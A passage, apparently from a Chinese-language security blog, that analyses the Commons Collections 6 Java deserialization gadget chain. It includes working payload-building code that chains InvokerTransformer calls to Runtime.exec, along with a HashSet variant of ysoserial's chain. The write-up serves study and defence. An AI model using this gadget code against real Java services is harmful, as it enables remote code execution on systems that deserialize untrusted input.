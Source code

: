         // 将TiedMapEntry作为key放入HashMap，HashMap#readObject会调用hash(key)，和URLDNS类似
        HashMap<Object, Object> res = new HashMap<>();
        res.put(tiedMapEntry,"something");

        // HashMap#put()也会调用hash(key)，所以最终经过LazyMap中的Transformer处理后，LazyMap会多一个键值对{"test":1}
        // 所以为了lazyMap#get()顺利执行factory.transform(key)，我们需要在反序列化前将键值对{"test":1}去掉
        evalMap.remove("test");

        // 最后在chainedTransformer中填入真正的执行链
        Class<? extends ChainedTransformer> clazz = chainedTransformer.getClass();
        Field iTransformers = clazz.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(chainedTransformer,trueTransformer);

        return res;
    }

调用链如下所示：

![CC6调用链][p9]

HashMap#readObject()中的hash(key)，前面URLDNS分析过了。重点是TiedMapEntry#hashCode()，如下代码所示：

    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }

再跟进TiedMapEntry#getValue()，如下代码所示：

    public Object getValue() {
        return map.get(key);
    }

于是顺利调用到了LazyMap#get()，从而触发Transformer达到RCE。

ysoserial给出的链，不是利用HashMap，而是利用HashSet，猜测大佬可能就是纯粹为了炫技咩？？？ysoserial的操作就是对HashSet内部的HashMap进行底层操作，修改HashSet内部HashMap的key为TiedMapEntry而已，而且说实话整个操作不是很优雅，如果硬是要用HashSet，可以使用下面这个改版的：

    public static Object getPayloadObjectFromYsoserail() throws Exception{
        // 此时内部的Transformer是无效的，避免生成payload过程中提前执行
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(1)
        });

        // 真正的Transformer调用链
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        HashMap<Object, Object> hashMap = new HashMap<>();
        Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
